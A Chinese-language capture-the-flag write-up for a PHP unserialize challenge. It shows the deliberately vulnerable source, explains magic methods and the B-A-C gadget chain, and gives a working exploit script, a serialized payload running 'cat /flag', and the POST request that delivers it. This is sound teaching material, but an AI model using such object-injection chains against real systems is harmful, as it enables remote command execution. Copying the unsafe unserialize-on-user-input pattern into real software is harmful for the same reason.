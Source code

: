 ```yaml
---
title: Unserialize
author: SMJB
difficulty: Medium
category: Web
image: ghcr.io/svuctf/svuctf-helloworld-2024/unserialize:latest
port: 80
writeup_author: 13m0n4de
tags:
  - php
  - unserialize
reference:
---
```


# Unserialize

## 题目描述

## 题目解析

```php
<?php

highlight_file(__FILE__);

class A
{
    public $str;
    public function __invoke()
    {
        echo ($this->str);
        echo ("还差一步，再看看");
    }
}

class B
{
    public $fun;
    public function __destruct()
    {
        ($this->fun)();
    }
}

class C
{
    public $command;
    public function __toString()
    {
        system($this->command);
        return "好像执行了什么";
    }
}

if (isset($_POST['data'])) {
    unserialize($_POST['data']);
} else {
    echo ("你参数呢?");
}
```

这道题主要考察 PHP 的几个知识点：

- 反序列化操作
- PHP 魔术方法的触发
- 对象链的构造

### 序列化和反序列化

**序列化 (Serialize)** 是指将对象转换成可传输或可保存的字符串形式的过程，相当于把内存中的数据结构转成字符串，保留了对象的所有信息。PHP 中使用 `serialize()` 函数进行序列化。

**反序列化 (Unserialize)** 是指将序列化后的字符串恢复成对象的过程，相当于把字符串转回内存中的数据结构。PHP 中使用 `unserialize()` 函数进行反序列化。

### 魔术方法

PHP 中的魔术方法是以 `__` 双下划线开头的特殊方法，会在特定条件下自动调用。比如：

- `__construct()`: 创建对象时自动调用
- `__destruct()`: 对象被销毁时自动调用
- `__toString()`: 当对象被当作字符串使用时自动调用
- `__invoke()`: 当对象被当作函数调用时自动调用
- `__wakeup()`: 在反序列化时自动调用

本题中用到了三个魔术方法：

- `__invoke()`：当对象被当作函数调用时触发
- `__toString()`：当对象被当作字符串使用时触发
- `__destruct()`：当对象被销毁时触发

在 PHP 中，对象会在以下情况被销毁（触发 `__destruct()`）：

- 脚本执行结束时
- 当变量被赋予新的值时
- 当使用 unset() 显式销毁对象时
- 当对象的引用计数变为 0 时

在本题中，`unserialize` 函数执行完毕后程序退出，就会销毁反序列化创建出的对象。

### 解题思路

利用魔术方法的自动调用特性，构造一个对象链：

1. 首先创建 `B` 类对象：当它被销毁时，会调用 `__destruct()`
1. `B` 的 `fun` 属性设置为 `A` 类对象：这样 `__destruct()` 中会把 `A` 对象当作函数调用，触发 `A` 的 `__invoke()`
1. `A` 的 `str` 属性设置为 `C` 类对象：这样 `__invoke()` 中会把 `C` 对象当作字符串使用，触发 `C` 的 `__toString()`
1. `C` 的 `command` 属性设置为要执行的命令：这样 `__toString()` 中就会执行这个命令

### 漏洞利用

利用程序 [exp.php](./writeup/exp.php)：

```php
<?php

class A
{
    public $str;
}

class B
{
    public $fun;
}

class C
{
    public $command;
}

$c = new C();
$c->command = "cat /flag";

$a = new A();
$a->str = $c;

$b = new B();
$b->fun = $a;

echo serialize($b);
```

执行 `php exp.php` 获得序列化字符串，也就是漏洞利用的 Payload：

```
O:1:"B":1:{s:3:"fun";O:1:"A":1:{s:3:"str";O:1:"C":1:{s:7:"command";s:9:"cat /flag";}}}
```

将生成的 Payload 字符串作为 `data` 参数传入：

```
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded

data=O:1:"B":1:{s:3:"fun";O:1:"A":1:{s:3:"str";O:1:"C":1:{s:7:"command";s:9:"cat /flag";}}}
```
